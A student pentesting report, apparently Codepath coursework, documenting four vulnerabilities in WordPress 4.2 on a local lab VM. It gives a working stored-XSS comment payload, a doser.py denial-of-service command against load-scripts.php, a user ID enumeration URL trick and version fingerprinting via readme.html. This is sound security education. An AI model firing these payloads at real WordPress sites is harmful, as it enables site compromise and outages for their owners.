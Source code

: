# Codepath Week7: Wordpress
# Project 7 - WordPress Pentesting

Time spent: **24** hours spent in total

> Objective: Find, analyze, recreate, and document vulnerabilities affecting an old version of WordPress

## Pentesting Report

### 1. WordPress <= 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary:
		1. A comment which exceeds 64 kb of data to a post will cause the HTML to no longer be 'well formed', allowing a malicious script to be inserted.  
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: ![](https://github.com/dallens/CodepathWeek7Wordpress/blob/master/XssWeek7.gif)
  - [ ] Steps to recreate: 
		1. Over 64kb of data must be sent in the comment, achieved by padding the comment with over 64000 'X's . 
		2. The script is thus: <a title='x onmouseover=alert(unescape(/hello%20dallens/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px --64000Xs--'></a>
		3. Post this code as a comment and a persistent XSS dialog box will display.
  - [ ] Affected source code:
    - [change 32299](https://core.trac.wordpress.org/changeset/32299)
### 2. WordPress <= 4.9.4 - Unauthenticated Page Request Application Denial of Service (DoS) (unpatched)
  - [ ] Summary: 
		1. An unauthenticated request to to all Wordpress stored javascripts that is uneccesary for site functionality can be leveraged for a DOS, causing the server to be unresponsive.
    - Vulnerability types: DOS/Improper Authentication
    - Tested in version: 4.2
    - Fixed in version: Unpatched 
  - [ ] GIF Walkthrough: ![](https://github.com/dallens/CodepathWeek7Wordpress/blob/master/UnauthenticatedDOSfinal.gif)
  - [ ] Steps to recreate: 
		1. Use a script to generate multiple requests (https://github.com/Quitten/doser.py/blob/master/doser.py) and a specially crafted payload requesting all stored javascript modules is launched from the attacker's machine.
		2. ```python doser.py -g 'http://wpdistillery.vm/wp-admin/load-scripts.php?c=1&load%5B%5D=eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter&ver=4.9' -t 9999```
  - [ ] Affected source code:
    - [Wordpress scriptloader](https://github.com/WordPress/WordPress/blob/master/wp-includes/script-loader.php)
### 3. Unauthenticated Valid User ID Enumeration
  - [ ] Summary:
		1. A user which does not have user edit permissions may manipulate the URL to enumerate valid user IDs  
    - Vulnerability types: URL Manipulation / User Enumeration
    - Tested in version: 4.2
    - Fixed in version: N/A
  - [ ] GIF Walkthrough: UnauthenticatedUser_Enumeration.gif
  - [ ] Steps to recreate: 
		1. Log in as user with access to WP-Admin but no user modification priviledges 
		2. Insert the following as a URL: http://wpdistillery.vm/wp-admin/user-edit.php?user_id=2&wp_http_referer=%2Fwp-admin%2Fusers.php
		3. Change the host/server address to you own and iterate through the user IDs. Move from "you do not have permission" to "user ID not valid" to enumerate the range of valid IDs. 
  - [ ] Affected source code:
    - [source_file](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 4. http://wpdistillery.vm/readme.html exposes version number
  - [ ] Summary: 
		1. The Wordpress version is exposed via an unauthenticated request to the README file.
    - Vulnerability types: Fingerprinting or Enumeration
    - Tested in version: 4.2
    - Fixed in version: (unfixed)
  - [ ] GIF Walkthrough: ![](https://github.com/dallens/CodepathWeek7Wordpress/blob/master/README_VersionFingerprinting.gif)
  - [ ] Steps to recreate: 
		1. Navigate to http://wpdistillery.vm/readme.html
		2. Wordpress version is exposed without any authentication or effort by an attacker.
  - [ ] Affected source code:
    - [source_file](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright 2018

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
